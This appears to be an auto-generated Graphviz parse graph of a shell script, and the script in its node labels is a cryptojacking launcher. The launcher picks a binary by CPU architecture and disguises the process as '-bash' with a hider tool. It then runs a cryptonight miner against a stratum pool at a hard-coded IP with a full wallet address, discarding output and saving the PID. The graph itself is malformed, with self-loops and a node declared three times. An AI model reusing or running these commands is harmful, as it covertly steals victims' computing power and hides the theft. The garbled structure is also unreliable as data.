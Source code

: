 digraph {
0 [label="proc=`nproc` "];
0 -> 0
2 [label="nproc "];
2 -> 4 [label="N,N,"];
4 [label="ARCH=`uname -m` "];
4 -> 4
6 [label="uname -m "];
6 -> 8 [label="N,N,"];
8 [label="HIDE=-bash "];
8 -> 8
10 [label="[ $ARCH == i686 ] "];
10 -> 12 [label="N,SC,N,if,"];
12 [label="./h32 -s $HIDE ./md32 -a cryptonight -o stratum+tcp://107.191.99.227:3333 -u 4JUdGzvrMFDWrUUwY3toJATSeNwjn54LkCnKBPRzDuhzi5vSepHfUckJNxRL2gjkNrSqtCoRUrEDAgRwsQvVCjZbRybb3kLz45H8EgLWZU -p x /dev/null "];
12 -> 24 [label=";,then,"];
24 [label="/dev/null "];
24 -> 24
16 [label="[ $ARCH == x86_64 ] "];
16 -> 18 [label="&,elif,"];
18 [label="./h64 -s $HIDE ./md -a cryptonight -o stratum+tcp://107.191.99.227:3333 -u 4JUdGzvrMFDWrUUwY3toJATSeNwjn54LkCnKBPRzDuhzi5vSepHfUckJNxRL2gjkNrSqtCoRUrEDAgRwsQvVCjZbRybb3kLz45H8EgLWZU -p x /dev/null "];
18 -> 24 [label=";,then,"];
24 [label="/dev/null "];
24 -> 24
22 [label="./h64 -s $HIDE ./mdx -a cryptonight -o stratum+tcp://107.191.99.227:3333 -u 4JUdGzvrMFDWrUUwY3toJATSeNwjn54LkCnKBPRzDuhzi5vSepHfUckJNxRL2gjkNrSqtCoRUrEDAgRwsQvVCjZbRybb3kLz45H8EgLWZU -p x /dev/null "];
22 -> 24 [label="&,else,"];
24 [label="/dev/null "];
24 -> 24
26 [label="echo $! bash.pid "];
26 -> 27 [label="&,fi,"];
}

